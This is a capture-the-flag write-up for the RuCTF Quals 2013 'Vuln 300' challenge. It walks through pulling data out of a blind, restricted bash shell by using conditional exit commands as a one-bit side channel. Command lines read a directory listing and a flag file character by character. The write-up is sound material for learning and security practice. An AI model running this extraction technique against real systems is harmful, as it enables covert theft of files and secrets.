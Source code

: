 ```yaml
---
title: "RuCTF Quals 2013: Vuln 300"
categories: ctf
layout: post
---
```


    $ nc aloneinthedark.quals.ructf.org 3255
    Mighty Bash is restricted and blinded. But it still can obtain the power!

This problem presents a "blinded" bash shell -- you can submit commands, which are executed, but you don't get to read their output.

We found that there was, however, a way to get information out -- if you terminate the shell, the underlying TCP connection is closed.

    $ nc aloneinthedark.quals.ructf.org 3255
    Mighty Bash is restricted and blinded. But it still can obtain the power!
    exit
    $

And you can make that exit conditional, as long as you only use bash builtins:

    $ nc aloneinthedark.quals.ructf.org 3255
    Mighty Bash is restricted and blinded. But it still can obtain the power!
    [ -d fnord ] && exit
    [ -d . ] && exit
    $

Well, then!  We can exfiltrate the flag out, bit by bit.  The basic idea is this:  Execute a command; store its output in a variable; check to see if the character at a certain index of that output is equal to a guessed character.

    $ nc aloneinthedark.quals.ructf.org 3255
    Mighty Bash is restricted and blinded. But it still can obtain the power!
    out="$(echo *)"
    [ "A" == "${out:0:1}" ] && exit
    [ "B" == "${out:0:1}" ] && exit
    [ "C" == "${out:0:1}" ] && exit
    [ "D" == "${out:0:1}" ] && exit
    [ "E" == "${out:0:1}" ] && exit
    [ "F" == "${out:0:1}" ] && exit
    $

We wrote a [quick and dirty script to automate this][lol.py].  And, after many minutes of waiting, we had our flag:

    $ python lol.py "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz ._-+" 'out="$(echo *)"'
    FLAG_NOGUESSING bin lib64 lost+found
    $ python lol.py "0123456789abcdef" "read out < FLAG_NOGUESSING"
    7c2b867e94f75bcb9a8e9cdf67e7a334

Of course, it turns out that there was a [much more straight-forward way][omfg] -- but hey, a flag's a flag, right?

[lol.py]: /postfiles/2013-03-13-ructf-quals-vuln-300/lol.py
[omfg]: http://peterpen-ctf.net/?p=476